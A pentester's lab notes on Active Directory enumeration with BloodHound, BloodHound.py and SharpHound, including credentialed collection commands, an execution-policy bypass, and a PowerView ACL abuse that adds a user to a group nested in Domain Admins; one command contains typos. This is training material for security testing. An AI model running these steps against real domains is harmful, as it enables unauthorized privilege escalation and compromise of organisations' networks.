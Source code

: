 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |

| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |

#### 71 BloodHound

When using BloodHound, get the latest version here: https://github.com/BloodHoundAD/BloodHound/releases
```
wget https://github.com/BloodHoundAD/BloodHound/releases/download/rolling/BloodHound-linux-x64.zip
```

Also, grab the SharpHound.exe from here: https://github.com/BloodHoundAD/SharpHound/releases/tag/rolling
```
wget https://github.com/BloodHoundAD/SharpHound/releases/download/rolling/SharpHound.zip
```

[[8._BloodHound#SharpHound]]

```bash
sudo neo4j console
```


```
http://localhost:7474/
```

neo4j:neo4j

changed password to password

Now open bloodhound from wherever you downloaded from.

```
cd BloodHound-linux-x64 && ./Bloodhound
```

neo4j:password

#### BloodHound python

```bash - kali
cd /opt && sudo git clone https://github.com/fox-it/BloodHound.py
```

```bash - kali
cd BloodHound && sudo python setup.py install
```

```bash - kali
sudo bloodhound-python -u USER -p 'PASSWORD' -d DOMAIN -ns $TARGET -c All
```

OR

```bash - kali
sudo bloodhound-python -u USER -p 'PASSWORD' -d DOMAIN -ns $TARGET -c DcOnly
```

![[Pasted image 20220107142635.png]]

```bash
sudo neo4j console
```

```bash - kali
bloodhound
```

Right side, click "Upload Data"

Upload .json files to Bloodhound GUI

Type "owned username" in search bar, right click and mark as owned. 

Evaluate node details for clues.

#### 72 BloodHound Basics

In top left, click the "pathway" button, fill out the boxes and hit the go triangle button:

Start Node: $USER
Target Node: Domain Admins

This will show you a path from your user to Domain Admins access.

Right click line and look for help?

In this example, our user is a member of a group called "Hidden", which is a member of Domain Admins.  So $GROUPNAME == Hidden.

We can verify this in PS with PowerView.ps1:

```
Import-Module .\PowerView.ps1
```

```
Get-ObjectAcl -SamAccountName $GROUPNAME | ? { ($_.ActiveDirectoryRights -match 'GenericWrite') }
```

```
Add-DomainGroupMemeber -identify '$GROUPNAME' -Members '$USER' -Domain '$NETBIOS_DOMAIN_NAME'
```

Verify the $USER is now part of $GROUPNAME
```
net user $USER /domain
```


#### SharpHound

```bash
wget https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
```

Transfer to Windows

![[Python#Server]]

![[4._File Transfers#Certutil]]

```powershell
powershell -ep bypass
```

```powershell
. .\SharpHound.ps1
```

```powershell
Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip
```

![[Pasted image 20211224225447.png]]

[[4._File Transfers]]

Transfer zip file to kali.

Go back into Kali Bloodhound, upload the file.zip by selecting upload data on the right.
	
![[Pasted image 20211224232432.png]]
	
Click "Find all Domain Admins" under Analysis 
	
![[Pasted image 20211224232531.png]]
